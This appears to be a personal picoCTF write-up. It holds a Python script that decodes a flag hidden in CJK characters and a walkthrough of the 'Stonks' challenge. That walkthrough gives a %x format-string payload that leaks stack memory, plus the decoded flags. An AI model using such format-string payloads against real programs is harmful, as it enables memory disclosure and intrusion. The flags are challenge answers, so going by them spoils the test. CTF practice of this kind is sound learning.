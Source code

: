 ```python
    print(a)
    enc=enc+a
    print(enc)
'''this is the encoded flag:'''
'''灩捯䍔䙻戱獣由瑳弴湤彧爴癹彦〶㘸昶㉽'''
'''looks like two alphabets are combined into one. reverse the process here and we might end up with p and i out of the first character.'''
enc='灩'
print (enc)
print (ord(enc))
print (ord('p') << 8)
print (chr(28777 >> 8))
print(ord(enc)-(ord('p')<<8))
print(chr(105))
'''some more working to make sure I am on the right track.'''
o=ord(enc)
d=chr(o >> 8)
print(d)
diff=ord(d)<<8
print(chr(o-diff))
'''flag to decode: 灩捯䍔䙻ㄶ形楴獟楮獴㌴摟潦弸彤㔲挶戹㍽'''
enc='灩捯䍔䙻ㄶ形楴獟楮獴㌴摟潦弸彤㔲挶戹㍽'
dec=''
for i in range(len(enc)):
    o=ord(enc[i])
    d=chr(o >> 8)
    dec=dec+d
    diff=ord(d)<<8
    dec=dec+(chr(o-diff))
print (dec)

```


## Stonks
#BinaryExploitation
vuln.c uses scanf. Read up on exploits for printf and scanf.
%x prints the stack and gives us wonky output. 
Select 1 to buy stocks and use %x as input.
Input:
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
Output:
89763d0.804b000.80489c3.f7ee4d80.ffffffff.1.8974160.f7ef2110.f7ee4dc7.0.8975180.1.89763b0.89763d0.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.35386130.32356533.ff8f007d.f7f1faf8.f7ef2440.6cce0800.1.0.f7d81ce9.f7ef30c0.f7ee45c0.f7ee4000.ff8f5ff8.f7d7268d.f7ee45c0.8048eca.ff8f6004.0.f7f06f09.
Looks like hex.
Convert hex to text:
http://www.unit-conversion.info/texttools/hexadecimal/
Text:
�v=��H�?~������t~�~��p�u�v;�c�ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3��}������$@l������0���E���@��_���&���E��H���@��o
Jumbled flag: ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3��}
picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}

